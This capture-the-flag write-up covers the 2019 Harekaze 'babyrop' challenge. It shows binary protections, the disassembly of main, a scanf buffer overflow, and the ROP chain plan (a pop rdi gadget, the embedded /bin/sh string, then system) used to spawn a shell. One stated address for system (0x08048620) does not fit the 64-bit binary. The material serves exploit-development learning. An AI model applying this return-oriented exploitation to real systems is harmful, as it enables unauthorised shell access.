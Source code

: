 # 2019 Harekaze - Babyrop

## Vulnerability

Info shows NX true, no canary, partial RELRO, ELF64 binary:

```
$ rabin2 -I babyrop 
arch     x86
... snip ...
canary   false
sanitiz  false
class    ELF64
crypto   false
endian   little
... snip ...
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
```

When we run it, we are prompted with an input which is echoed back:

```
$ ./babyrop 
What's your name? aa
Welcome to the Pwn World, aa!
```

Let's move to disassembly:

```
sym.main (int argc, char **argv, char **envp);
|           ; var int local_10h @ rbp-0x10
|           ; DATA XREF from entry0 (0x4004fd)
|           0x004005d6      55             push rbp
|           0x004005d7      4889e5         mov rbp, rsp
|           0x004005da      4883ec10       sub rsp, 0x10
|           0x004005de      bfa8064000     mov edi, str.echo__n__What_s_your_name ; 0x4006a8 ; "echo -n \"What's your name? \""
|           0x004005e3      e8a8feffff     call sym.imp.system         ; int system(const char *string)
|           0x004005e8      488d45f0       lea rax, qword [local_10h]
|           0x004005ec      4889c6         mov rsi, rax
|           0x004005ef      bfc5064000     mov edi, 0x4006c5
|           0x004005f4      b800000000     mov eax, 0
|           0x004005f9      e8c2feffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
|           0x004005fe      488d45f0       lea rax, qword [local_10h]
|           0x00400602      4889c6         mov rsi, rax
|           0x00400605      bfc8064000     mov edi, str.Welcome_to_the_Pwn_World___s ; 0x4006c8 ; "Welcome to the Pwn World, %s!\n"
|           0x0040060a      b800000000     mov eax, 0
|           0x0040060f      e88cfeffff     call sym.imp.printf         ; int printf(const char *format)
|           0x00400614      b800000000     mov eax, 0
|           0x00400619      c9             leave
\           0x0040061a      c3             ret
```

The disassembly shows the use of `scanf` with `local_10h` and `0x4006c5` as format:

```
[0x004004e0]> x/10x 0x4006c5
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x004006c5  2573 0057 656c 636f 6d65                 %s.Welcome
```

Great! This is the most basic buffer overflow with system function already imported (`0x004005e3` call in the `sym.main` disassembly suggests that)

## Building ROP chain

OK, so the system function is in the .plt section at `0x08048620`. We can jump to it immediately when exiting main but we need to set the "/bin/sh" as first parameter. Let's see if we are lucky:

```
[0x004004e0]> iz
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x000006a8 0x004006a8  28  29 (.rodata) ascii echo -n "What's your name? "
001 0x000006c8 0x004006c8  30  31 (.rodata) ascii Welcome to the Pwn World, %s!\n
000 0x00001048 0x00601048   7   8 (.data) ascii /bin/sh
```

Yep. The "/bin/sh" string is already in the binary at `0x00601048` so we just need the appropriate `pop rdi` instruction we can jump to first to put the address of /bin/sh to rdi making it the first parameter.

```
$ python ../ROPgadget/ROPgadget.py --binary babyrop | grep "pop rdi"
0x0000000000400683 : pop rdi ; ret
```

Perfect. All is in place, the idea is to overflow the rip register with address of `pop rdi` instruction, pop the /bin/sh address to rdi register and jump to system function which will execute and give us a shell. The complete solution to this task is `solve_2019_harekaze_babyrop.py`.
